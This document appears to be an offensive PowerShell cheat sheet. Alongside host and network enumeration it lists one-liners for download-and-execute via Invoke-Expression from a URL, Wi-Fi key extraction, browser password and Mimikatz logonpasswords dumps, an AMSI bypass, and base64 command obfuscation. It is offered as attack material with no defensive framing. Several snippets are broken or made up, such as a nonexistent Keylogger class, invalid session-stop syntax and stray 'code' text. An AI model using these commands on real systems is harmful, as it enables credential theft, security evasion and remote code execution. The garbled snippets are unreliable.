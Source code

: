 ## Enumeration: System Information
```
Get-WmiObject -Class Win32_OperatingSystem | Select-Object -Property *
```
## Enumeration: Network Configuration
```
Get-NetIPConfiguration | Select-Object -Property InterfaceAlias, IPv4Address, IPv6Address, DNServer
```
## Enumeration: Running Processes
```
Get-Process | Select-Object -Property ProcessName, Id, CPU | Sort-Object -Property CPU -Descending
```
## Enumeration: FailedAudits in Event Logs
```
Get-EventLog -LogName Security | Where-Object {$_.EntryType -eq 'FailureAudit'}
```
## Enumeration: Scanning for open ports
```
1..1024 | ForEach-Object { $sock = New-Object System.Net.Sockets.TcpClient; $async =
$sock.BeginConnect('localhost', $_, $null, $null); $wait = $async.AsyncWaitHandle.WaitOne(100, $false);
if($sock.Connected) { $_ } ; $sock.Close() }
```
## Retrieve stored credentials
```
$cred = Get-Credential; $cred.GetNetworkCredential() | Select-Object -Property UserName, Password
```
## Fetch script hosted on URL
```
$url = 'http://example.com/script.ps1'; Invoke-Expression (New-Object
Net.WebClient).DownloadString($url)
```
## Custom keylogger
```
$path = 'C:\temp\keystrokes.txt'; Add-Type -AssemblyName System.Windows.Forms; $listener = New-Object
System.Windows.Forms.Keylogger; [System.Windows.Forms.Application]::Run($listener); $listener.Keys |
Out-File -FilePath $path
```
## Extract wireless profiles and passwords
```
netsh wlan show profiles | Select-String -Pattern 'All User Profile' -AllMatches | ForEach-Object { $_
-replace 'All User Profile *: ', '' } | ForEach-Object { netsh wlan show profile name="$_" key=clear }
```
## Monitor file system changes
```
$watcher = New-Object System.IO.FileSystemWatcher; $watcher.Path = 'C:\';
$watcher.IncludeSubdirectories = $true; $watcher.EnableRaisingEvents = $true; Register-ObjectEvent
$watcher 'Created' -Action { Write-Host 'File Created: ' $Event.SourceEventArgs.FullPath }
```
## Extract browser passwords
```
Invoke-WebBrowserPasswordDump | Out-File -FilePath C:\temp\browser_passwords.txt
```
## Custom network sniffer
```
$adapter = Get-NetAdapter | Select-Object -First 1; New-NetEventSession -Name 'Session1' -CaptureMode
SaveToFile -LocalFilePath 'C:\temp\network_capture.etl'; Add-NetEventPacketCaptureProvider -SessionName
'Session1' -Level 4 -CaptureType Both -Enable; Start-NetEventSession -Name 'Session1'; Stop-
NetEventSession -Name 'Session1' after 60
```
## Bypass AMSI on Powershell
```
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,S
tatic').SetValue($null,$true)
```
## Mimikatz dump via PS
```
Invoke-Mimikatz -Command '"sekurlsa::logonpasswords"' | Out-File -FilePath C:\temp\logonpasswords.txt
```
## String Obfuscation
```
$originalString = 'SensitiveCommand'; $obfuscatedString =
[Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($originalString)); $decodedString =code code
[System.Text.Encoding]::Unicode.GetString([Convert]::FromBase64String($obfuscatedString)); Invoke-code
Expression $decodedString
```
